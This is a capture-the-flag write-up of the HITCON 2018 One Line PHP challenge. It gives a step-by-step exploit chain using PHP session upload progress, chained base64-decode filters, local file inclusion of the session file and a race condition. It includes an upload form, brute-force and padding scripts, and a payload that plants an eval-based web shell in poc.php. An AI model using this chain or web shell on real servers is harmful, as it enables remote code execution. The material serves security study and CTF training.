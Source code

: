 ### References

- [@rai4over, HITCON 2018 One Line PHP Challenge, 2018-11-01](http://www.rai4over.cn/2018/HITCON-2018-One-Line-PHP-Challenge/)
- [@Orange, HITCON CTF 2018 - One Line PHP Challenge, 2018-10-24](http://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)
- [@kingkk, hitcon2018 One Line PHP Challenge, 2018-10-24](https://www.kingkk.com/2018/10/hitcon2018-One-Line-PHP-Challenge/)

**Tag: Session upload progress, PHP wrappers, Race condition**

1.Send POST request, and the cookie contains `PHPSESSID=JustATest`, and provide the `PHP_SESSION_UPLOAD_PROGRESS` in multipart POST data (defined in [session.upload_progress.name](https://www.php.net/manual/en/session.configuration.php#ini.session.upload-progress.name)).

while this field is included in the upload package, PHP will automatically enable Session, and since `PHPSESSID=xxxx` is set in the Cookie, the Session file will be created automatically which named `sess_JustATest`.

We can write the following form to help us constructing upload package:

```html
<html>
<body>
<form action="http://127.0.0.1/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="@<?php phpinfo();?>" />
    <input type="file" name="test" />
    <input type="submit" />
</form>
</body>
</html>
```

The content of the session file is partly controllable, and the content is as follows:

```tex
upload_progress_@<?php phpinfo();?>|a:5:{s:10:"start_time";i:1541075498;......
```

ok, this mean we need to cleanup the prefix.

2.In PHP, the `base64` will ignore invalid characters. So we combine multiple `convert.base64-decode` filter to that.

The base64 decoded needs to be a multiple of 4 characters, so we need two characters padding, run this script to brute force:

```python
import base64
import string

def decode(str):
    return base64.b64decode(base64.b64decode(base64.b64decode(str)))

s = "upload_progress_"
string_list = string.ascii_letters + string.digits

for x in string_list:
    for y in string_list:
        try:
            r = decode(s + str(x) + str(y))
        except Exception:
            pass
        else:
            if r == b'':
                print(s + str(x) + str(y))
```

Choose one of the results such as `upload_progress_cv`, this will be empty after we decode it three times:

```python
>>> import base64
>>> def decode(str):
...     return base64.b64decode(base64.b64decode(base64.b64decode(str)))
...
>>> decode('upload_progress_cv')
b''
```

3.Then we can use the following url to include the session file:

```tex
?orange=php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/var/lib/php/sessions/sess_JustATest
```

But there is another problem that the character `=` in base64 can only be placed at the end of the code for bit-filling.

If `=` in the middle, the `convert.base64-decode` can't be resolved normally. So we need padding to improve compatibility. Run the script modified from orange:

```python
import base64

for i in range(36):
    junk = 'a' * i
    arg = PAYLOAD.encode() + junk.encode()
    x = b64encode(arg).decode()
    xx = b64encode(b64encode(arg)).decode()
    xxx = b64encode(b64encode(b64encode(arg))).decode()
    if '=' not in x and '=' not in xx and '=' not in xxx:
        xxx = 'upload_progress_cv' + xxx
        print(xxx)
        break
```

check if it can work fin:

```python
>>> decode('upload_progress_cvVVVSM0wyTkhhSGRKUjFacVlVYzRaMG96UW05alJ6bHlTbnAwYldGWGVHeFlNMEl4WkVZNWFtSXlOVEJhVnpVd1kzbG5ibU5IT1dwTWJrSnZZME5qYzFsdFJucGFWRmt3V0RKU2JGa3lPV3RhVTJkdVZVVlJOV1F5UmtsUlYyUlNVakZaZVZkV1pETmlNSEJIVDFaT1UxWnJXbGRWYkZwUFZsWmplVkp0VWt4V1JHZHlTbmxyY0U5Nk9DdFpWMFpv')
b"@<?php echo 'phpok';file_put_contents('poc.php',base64_decode('PD9waHAgQGV2YWwoJF9SRVFVRVNUW2FdKT8+'));?>aaa"
```

4.The final question is that the default `session.upload_progress.cleanup` in PHP is On. It means your upload progress in the session will be cleaned as soon as possible!

Here we use race condition to catch our data

![](https://i.imgur.com/lGHYJm2.png)
